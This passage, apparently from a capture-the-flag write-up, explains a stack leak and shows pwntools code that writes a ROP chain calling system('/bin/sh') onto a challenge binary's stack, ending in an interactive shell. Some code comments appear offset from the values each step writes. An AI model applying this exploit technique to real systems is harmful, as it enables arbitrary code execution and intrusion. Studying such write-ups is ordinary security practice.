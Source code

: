 Again, capture a leak, however this time the stack from position 11.  Unlike the others this cannot be destructive, we need to swap it back.

To compute the actually stack location of the first item we need to subtract `(0x00007fffffffe470 - 0x00007fffffffe320)` from the returned value (this is based on the stack diagram above, look around, you'll see why).

Also notice unlike the previous two leaks the reply to the `[y/n]` question.  It's 8 `n`s followed by the address of `pop_rdi+1` (a.k.a. `ret`).  Remember `fgets` will take 17 (0x11) bytes and we need our attacks stack aligned, so write out any 8 bytes first starting with `n` followed by the value you need.

Now we're ready to start swapping in our _ropchain_.

```python
# rop chain
# pop_rdi + 1
line = 14
p.sendlineafter('select: ',str(line))
p.sendlineafter('with: ',str((binary.sym.yn-stack)//8+2))
p.sendlineafter('[y/n]: ',8*b'n' + p64(pop_rdi))

# pop_rdi 
line += 1
p.sendlineafter('select: ',str(line))
p.sendlineafter('with: ',str((binary.sym.yn-stack)//8+2))
p.sendlineafter('[y/n]: ',8*b'n' + p64(libc.search(b'/bin/sh').__next__()))

# /bin/sh address
line += 1
p.sendlineafter('select: ',str(line))
p.sendlineafter('with: ',str((binary.sym.yn-stack)//8+2))
p.sendlineafter('[y/n]: ',8*b'n' + p64(libc.sym.system))

# system call
line += 1
p.sendlineafter('select: ',str(line))
p.sendlineafter('with: ',str((binary.sym.yn-stack)//8+2))
p.sendlineafter('[y/n]: ',8*b'n' + b'A\0')
```

Using the previous reply to the `[y/n]` questions we can start to _swap_ in our _ropchain_ starting from position 14 as identified in the stack discussion above (see Analysis section).

The last `[y/n]` just needs a single `A` after 8 `n`s (see below):

```python
# shit we really do have to sort, or do we?  just change it all to A
for i in range(10):
	p.sendlineafter('select: ',str(i+1))
	p.sendlineafter('with: ',str((binary.sym.yn-stack)//8+2))
	if i < 9:
		p.sendlineafter('[y/n]: ',8*b'n' + b'A\0')
	else:
		p.sendlineafter('[y/n]: ','y')

p.interactive()
```
